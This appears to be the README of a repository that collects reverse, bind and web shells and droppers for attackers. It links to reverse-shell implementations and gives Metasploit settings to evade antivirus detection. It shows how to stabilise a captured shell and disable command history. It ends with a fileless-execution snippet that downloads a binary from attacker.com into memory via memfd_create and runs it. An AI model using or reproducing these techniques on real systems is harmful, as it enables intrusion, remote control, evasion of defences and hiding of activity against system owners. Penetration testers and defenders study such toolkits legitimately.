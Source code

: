 # Shells

> A collection of reverse, bind and web shells from all over the internet.

Spotlight:

- [TCP reverse shell in C++ as Windows DLL](./reverse/connector/windows-cpp/)
- [TCP reverse shell with Cosmopolitan Libc](./reverse/connector/cosmopolitan/)
- [TCP reverse shell in Go](./reverse/connector/golang/)
- [Reverse shell listener with Tmux and Socat](./reverse/listener/tmux-socat-multiplexer/)
- [Python dropper utilizing `memfd_create()` on Linux](./dropper/memfd-create.py)
- [Python dropper that jumps to shellcode on Linux](./dropper/mmap-ctype.py)

## Usage

To interactively select and render one of the many templates run `./make.py`.

## Tips

### Metasploit

List available payload formats with `msfvenom --list formats`.

Payloads like `windows/shell_reverse_tcp` are one of the few reverse shells for Windows that support interactive commands.

Evade basic AV detection with `windows/meterpreter/reverse_http` ([source](https://twitter.com/lpha3ch0/status/1630213398397874178)):

~~~
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoLoadStdapi false
~~~

After you received the meterpreter shell run `load stdapi`.

When your shell terminates shortly after you receive the connection run `migrate -N explorer.exe` in the meterpreter shell or `set AutoRunScript post/windows/manage/migrate` for the handler.

### Linux PTY

Spawn a PTY and stabilize your shell.

~~~ bash
python -c 'import pty;pty.spawn("/bin/bash")'
# ctrl+z
echo "stty sane;stty rows $LINES cols $COLUMNS;export TERM=xterm;" | xclip -sel clip
stty raw -echo
fg
# paste clipboard
# optional: disable history
unset HISTFILE
# optional: reset prompt
export PS1="$HOSTNAME> "; unset PROMPT_COMMAND
~~~

Alternate technique to spawn a PTY.

~~~ bash
script -q -c /bin/bash /dev/null
~~~

### Linux memfd_create()

Create file in memory with Python 3.8 or newer ([source](https://twitter.com/David3141593/status/1629691758563975168)).

~~~ python
import os
os.fork() or (os.setsid(), print(f'/proc/{os.getpid()}/fd/{os.memfd_create(str())}'), os.kill(os.getpid(), 19))
~~~

~~~ bash
path="$(python3 -c "from os import*;fork()or(setsid(),print(f'/proc/{getpid()}/fd/{memfd_create(sep)}'),kill(0,19))")"
curl -o $path https://attacker.com/malware.elf
$path
~~~

